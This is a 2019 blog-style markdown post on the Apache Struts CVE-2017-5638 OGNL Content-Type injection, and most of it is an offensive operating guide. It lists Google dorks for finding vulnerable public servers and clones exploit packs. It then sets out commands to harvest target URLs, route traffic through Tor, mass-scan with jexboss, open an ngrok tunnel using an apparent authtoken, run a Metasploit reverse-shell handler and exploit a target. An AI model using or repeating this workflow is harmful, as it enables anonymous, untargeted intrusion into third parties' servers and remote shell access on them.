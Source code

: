 ```yaml
---
title: APACHE STRUTS VULNERABILITY CVE 2017-5638 - Quick Sort
category: Article
date: 2019-2-19
author: Read Loud
comment: true
---
```


# What is CVE-2017-5638?
Struts is vulnerable to remote command injection attacks through incorrectly parsing an attacker’s invalid Content-Type HTTP header. The Struts vulnerability allows these commands to be executed under the privileges of the Web server. This is full remote command execution and has been actively exploited in the wild from the initial disclosure.

The vulnerable code is in the Jakarta Multipart parser. If the Content-Type value isn’t valid, that is, it does not match an expected valid type, an exception is thrown that is then used to display an error message to a user. In this case, we can set the Content-Type to an OGNL expression such as:

~~~bash
Content­Type: ${(#_='multipart/form­data')}...
#eps=#container.toString()
#cmds=({'/bin/echo', #eps})
com.opensymphony.xwork2.inject.ContainerImpl@d0d2b00
~~~
![img-sample](https://www.synopsys.com/blogs/software-security/wp-content/uploads/HTTPRequestWithCurl.png)

The curl command shown above demonstrates whether the server is vulnerable or not by sending an http request with an embedded OGNL expression in the Content-Type header and receiving a response.

## FIND POTENTIAL TARGETS

intitle:"Struts problem report" intext:"Struts has detected an Unhandled"
intitle:"Struts Problem Report" intext:"development mode is enabled."
filetype:action
filetype:do
filetype:java
filetype:out
filetype:bat
filetype:seam
filetype:sh
filetype:bson
filetype:el
filetype:pm
inurl:login.action
inurl:login.do
inurl:login.java
inurl:index.action
inurl:index.do
inurl:index.java

## DEPENDENCIES

~~~bash
git clone https://github.com/s1kr10s/Apache-Struts-v3.git
git clone https://github.com/drigg3r/Struts-Apache-ExploitPack.git
git clone https://github.com/opsdisk/pagodo.git
git clone https://github.com/3ndG4me/torphantom.git
~~~

## Optional
Save your dorks list into a file such as "dorks.txt" and Specify the output path and filename such as "urls.txt"
~~~bash
$ sudo python pagodo.py ­-g dorks.txt ­-l 200 ­-s ­-e 35.0 ­-j 1.1 >> urls.txt
~~~

## INITIALIZE TOR SESSION WITH TORPHANTOM
###  Type the below commands
~~~bash
$ sudo torphantom start ­-i <interface>
~~~

### Scan using Struts-Scanner
Type the below commands and follow up the screen prompt
~~~bash
$ ./struts­-scanner
~~~
Type the below commands after correcting the input and output file paths
~~~bash
$ python jexboss.py ­-mode -file­-scan -­file /path/file/urls.txt ­-out /path/output/results.log ­­--struts2
~~~

## INITIALIZE TCP TUNNELING WITH NGROK
~~~bash
$ ./ngrok authtoken 8ml78jQFrVNah4cN8UwTt_5ZVZYRPD8q7huTk7vo8MZ
~~~
*Your Token can be found in your Ngrok account*

Create the Ngrok session on the port 4444 using the below command
~~~bash
$ ./ngrok tcp 4444
~~~

## CREATE MSF HANDLER
~~~bash
$ msfconsole
$ msf > use exploit/multi/handler
$ msf exploit(multi/handler) > set LHOST 0.0.0.0 LHOST => 0.0.0.0
$ msf exploit(multi/handler) > set LPORT 4444 LPORT => 4444
$ msf exploit(multi/handler) > set PAYLOAD linux/x86/shell/reverse_tcp PAYLOAD => linux/x86/shell/reverse_tcp msf exploit(multi/handler) > show options
~~~

## EXPLOIT THE TARGET
~~~bash
$ sudo python jexboss.py -u http://example.com/login.action
~~~

Complete Guide:[here](https://youtu.be/Bt9m__yel8M)
